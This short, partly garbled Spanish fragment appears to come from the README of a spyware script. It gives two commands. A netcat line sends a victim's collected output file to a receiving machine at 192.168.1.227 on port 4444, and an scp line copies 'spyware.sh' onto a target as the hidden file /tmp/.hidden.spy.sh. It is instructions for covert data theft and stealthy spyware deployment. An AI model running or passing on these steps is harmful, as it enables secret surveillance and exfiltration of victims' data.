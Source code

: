 Los datos  los datos de la computadora receptora de los datos de la victima en:

- nc 192.168.1.227 4444 < "$archivo_salida"

Ejecución:

- scp spyware.sh <user>@<ip>:/tmp/.hidden.spy.sh